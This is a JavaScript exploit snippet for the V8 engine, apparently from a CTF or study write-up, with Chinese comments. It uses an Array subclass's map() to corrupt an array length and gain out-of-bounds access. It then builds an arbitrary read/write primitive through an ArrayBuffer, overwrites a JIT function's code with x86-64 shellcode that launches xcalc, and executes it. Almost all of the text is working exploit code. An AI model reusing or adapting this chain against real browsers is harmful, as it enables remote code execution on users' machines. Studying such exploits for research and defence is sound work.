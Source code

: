 ```
// |oob_rw FixedDoubleArray (0x20) | leak JSArray (0x30) | leak FixedArray (0x18) |
// --------------------------------------------------------------------------------
// |arb_rw ArrayBuffer |
// ================================================================================
var myarray = new MyArray();
//%DebugPrint(myarray);
myarray.length = 9;
myarray[4] = 42;
myarray[8] = 42;
//%SystemBreak();
//修改oob_rw的length，从上方截图可以看到
myarray.map(function(x) `{` return 1000000; `}`);
//%SystemBreak();
//oob read to get func addr, and we can write it to shellcode
//对于oob_rw偏移为10处是leak，得到地址
var js_function_addr = oob_rw[10]; // JSFunction for code()
// Set arb_rw's kByteLengthOffset to something big.
uint32[0] = 0;
uint32[1] = 1000000;
oob_rw[14] = float64[0];
// Set arb_rw's kBackingStoreOffset to
// js_function_addr + JSFunction::kCodeEntryOffset - 1
// (to get rid of Object tag)
oob_rw[15] = Uint64Add(js_function_addr, 56-1);
//%SystemBreak();
//convert to float
var js_function_uint32 = new Uint32Array(arb_rw);
uint32[0] = js_function_uint32[0];
uint32[1] = js_function_uint32[1];
oob_rw[15] = Uint64Add(float64[0], 128); // 128 = code header size
//%SystemBreak();
//write shellcode
// pop /usr/bin/xcalc
var shellcode = new Uint32Array(arb_rw);
shellcode[0] = 0x90909090;
shellcode[1] = 0x90909090;
shellcode[2] = 0x782fb848;
shellcode[3] = 0x636c6163; //xcalc
shellcode[4] = 0x48500000;
shellcode[5] = 0x73752fb8;
shellcode[6] = 0x69622f72;
shellcode[7] = 0x8948506e;
shellcode[8] = 0xc03148e7;
shellcode[9] = 0x89485750;
shellcode[10] = 0xd23148e6;
shellcode[11] = 0x3ac0c748;
shellcode[12] = 0x50000030; //我改为了0x50000031
shellcode[13] = 0x4944b848;
shellcode[14] = 0x414c5053;
shellcode[15] = 0x48503d59;
shellcode[16] = 0x3148e289;
shellcode[17] = 0x485250c0;
shellcode[18] = 0xc748e289;
shellcode[19] = 0x00003bc0;
shellcode[20] = 0x050f00;
//execute shellcode
code();
```
